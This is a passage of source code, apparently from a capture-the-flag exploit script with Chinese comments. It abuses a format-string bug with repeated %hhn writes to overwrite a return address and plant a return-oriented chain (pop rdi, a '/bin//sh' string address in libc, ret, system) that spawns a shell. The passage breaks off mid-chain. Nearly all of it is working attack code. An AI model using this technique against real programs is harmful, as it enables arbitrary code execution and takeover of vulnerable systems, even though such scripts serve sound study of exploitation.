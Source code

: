 ```plain
# one_gadgets = addr_libc_base + offset[2]
print("pop_rdi", hex(addr_pop_rdi))
print("main_re", hex(addr_libc_base + libc.dump("__libc_start_main") + 243))

change_byte = addr_pop_rdi
addr_write = addr_stack_buf + 0x60 + 0x08
# 修改返回地址
for i in range(4):
    cur_bytes = change_byte % 256
    change_byte //= 256
    print(hex(cur_bytes))
    print(hex(addr_write + i))
    payload = 'A' * 5 + "%9$hhn" + '%' + str(cur_bytes - 5) + "c"+ "%10$hhn"
    payload = payload.encode()
    assert len(payload) <= 0x18
    payload = payload.ljust(0x18, b'a')
    payload += p64(addr_printf_ret)
    payload += p64(addr_write + i)
    payload = payload.ljust(0x30, b'a')

    p.send(payload)

# 写入 /bin//sh 的地址
change_byte = addr_libc_base + 0x1b45bd
addr_write = addr_write + 0x08
for i in range(6):
    cur_bytes = change_byte % 256
    change_byte //= 256
    print(hex(cur_bytes))
    print(hex(addr_write + i))
    # begin with 6
    payload = 'A' * 5 + "%9$hhn" + '%' + str(cur_bytes - 5) + "c"+ "%10$hhn"
    payload = payload.encode()
    assert len(payload) <= 0x18
    payload = payload.ljust(0x18, b'a')
    payload += p64(addr_printf_ret)
    payload += p64(addr_write + i)
    payload = payload.ljust(0x30, b'a')

    p.send(payload)

# 写入 ret
change_byte = addr_ret
addr_write = addr_write + 0x08
for i in range(6):
    cur_bytes = change_byte % 256
    change_byte //= 256
    print(hex(cur_bytes))
    print(hex(addr_write + i))
    # begin with 6
    payload = 'A' * 5 + "%9$hhn" + '%' + str(cur_bytes - 5) + "c"+ "%10$hhn"
    payload = payload.encode()
    assert len(payload) <= 0x18
    payload = payload.ljust(0x18, b'a')
    payload += p64(addr_printf_ret)
    payload += p64(addr_write + i)
    payload = payload.ljust(0x30, b'a')

    p.send(payload)

# 写入 system
change_byte = addr_system
addr_write = addr_write + 0x08
```